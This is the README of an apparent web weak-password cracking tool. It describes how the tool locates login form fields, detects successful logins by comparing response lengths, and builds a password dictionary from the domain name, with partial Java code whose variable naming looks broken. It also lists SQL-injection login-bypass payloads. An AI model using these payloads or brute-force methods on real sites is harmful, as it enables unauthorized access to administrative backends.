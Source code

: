 # Weak_pwd_crack_master
  A universal web weak password cracking script aimed at batch detecting management backends without verification codes.
  With the increase of attack and defense drills and some vulnerability mining tasks, it is sometimes necessary to quickly detect the security of some website 
  backend in large quantities, especially to test some weak management passwords. Therefore, this tool is available - a universal web weak password cracking script
# Change log
[2023-01-05] We have dealt with the abnormal situations that occurred during the detection, but there are still many problems  

[2023-01-03] We have usedmultiple threads and conducted a comprehensive summary of login situations for different websites
# Function principle

1.Identify blasting parameters  

  We determine the location of username and password parameters based on extracting keywords such as user pass from the form  
```
if parameter:
  if not user_key:
    for z in [ 'user', 'name','zhanghao', 'yonghu', 'email', 'account']:
      if z in parameter.lower():
        value = '{user_name}'
        user_key = parameter
        ok_flag = 1
        break
      if not ok_flag:
        for y in ['pass', 'pw', 'mima']:
          if y in parameter.lower():
            value = '{pass_word}'
            pass_key = parameter
            ok_flag = 1
            break
```

2.The way to determine successful login  

  This can be said to be the most troublesome issue 
  
  If it's okay for a management system, just find the pattern and determine if there are any features of successful login
  However, as a universal blasting script, there are various websites in the world, and it is impossible to find features one by one or to perform   
  regular matching one by one.  
  
  Finally, we adopt the following matching method
  
3.Determine whether to dynamically return a value and obtain Error Length  

  First, let's send two passwords that are definitely incorrect, such as length_ Test.Then,we obtain two return values and compare them.  
  If the values are different twice, it indicates that the management system returns different lengths for the same data packet. 
  
  At this point, the script cannot determine and exits the explosion.If it is the same, record this value as the basis for judgment.  
  
  However, in practice, a request will be made first, as it has been found that some management systems add tags to the response header during the first login. 
  Removing this item may result in misjudgment.  
  
4.Determine if the key names of the username and password exist on the redirected pag  

  There is no need to explain this too much. If it exists, it indicates that the login was unsuccessful and the user has returned to the login page.
  
  Because during the testing, it was found that some CMS would pop up a login failure box on the login page, directly determining whether it is equal is not accurate.
  
  There is another way to calculate page hashes and determine the similarity between the two.
  
  But we don't think it's necessary because there are different systems that are difficult to use a unified threshold for judgment, so we finally gave it up.
  
5.Recheck

  In order to improve accuracy and prevent false positives, we have added a recheck link.
  
  That is, send the password of the cracked account to the client again, and compare it with the error sent again_ Length comparison
  If different, it is the correct password.
  
  The previous error was not used here_ Length is because in actual testing, it was found that the length value of the returned packet may change due to WAF or 
  other factors.  
  
# Expansion module  

1.Dynamic Dictionary

  The code is as follows：
  ```
public class DictionaryGenerator {
 public List<String> genDynamDic(String url) {
 List<String> dynamPassDic = new ArrayList<>();
 List<String> tmpDic = new ArrayList<>();
 List<String> suffixDic = Arrays.asList("", "123", "888", "666", "123456");
 String[] list1 = url.split("/");
 String host = list1[2].split(":")[0];
 Pattern compileIp = Pattern.compile("^(1\\d{2}|2[0-4]\\d|25[0-5]|[1-9]\\d|\\d)\\.(1\\d{2}|2[0-4]\\d|25[0-5]|[1-9]\\d|\\d)\\.(1\\d{2}|2[0-4]\\d|25[0-5]|[1-9]\\d|\\d)\\.(1\\d{2}|2[0-4]\\d|25[0-5]|[1-9]\\d|\\d)$");
 boolean checkIp = compileIp.matcher(host).matches();
 if (!checkIp) {
 String[] list2 = host.split("\\.");
 int i = list2.length;
 for (int u = 0; u < i; u++) {
 String[] list3 = Arrays.copyOfRange(list2, u, i);
 String part = String.join(".", list3);
 if (part.length() < 5) {
 continue;
 }
 dynamPassDic.add(part);
 }
 for (int u = 0; u < i; u++) {
 String list3 = list2[u];
 if (list3.length() < 5) {
 continue;
 }
 tmpDic.add(list3);
 }
 for (String i : tmpDic) {
 for (String suffix : suffixDic) {
 String u = i + suffix;
 dynamPassDic.add(u);
 }
 }
 return dynamPassDic;
 } else {
 return new ArrayList<>();
 }
 }
}
```

If the domain name is  
  ```webcrack.yzddmr6.com```  
Then the following dynamic dictionary list will be generated.

2.Universal password detection

In addition to weak passwords, a large part of the vulnerabilities in the backend are due to universal passwords  
Some commonly used payloads have also been added to weak_pwd_crack_master
```
admin' or 'a'='a
'or'='or'
admin' or '1'='1' or 1=1
')or('a'='a
'or 1=1--
```

